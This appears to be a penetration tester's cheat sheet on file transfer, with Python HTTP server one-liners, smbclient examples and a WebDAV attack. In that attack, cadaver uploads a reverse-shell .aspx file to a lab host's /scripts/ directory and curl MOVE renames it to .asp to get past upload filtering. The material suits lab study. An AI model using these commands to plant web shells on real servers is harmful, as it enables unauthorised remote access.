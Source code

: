 # File Transfer

### HTTP Server

> python -m SimpleHTTPServer 8000

> python3 -m http.server 8000

### SMB File Upload

Method 1: Cadaver

```
cadaver http://10.11.1.13/scripts/
put /root/Desktop/shellLER/phpReverseShell/aspunstage.aspx
```

Method 2: Smbclient

```
$ smbclient //server/share -c 'cd c:/remote/path ; put local-file'
```
Second example
```
smbclient -W ENGR_STUDENT -U EngrID //hnas.engr.uconn.edu/EngrGroupMixed
get <somethingRecieve>.tgz
put <somethingSend>.tgz
```

CURL

```
curl -X MOVE --header    "Destination:http://10.11.1.13/scripts/aspunstaged.asp" "http://10.11.1.13/scripts/aspunstaged.aspx"
```
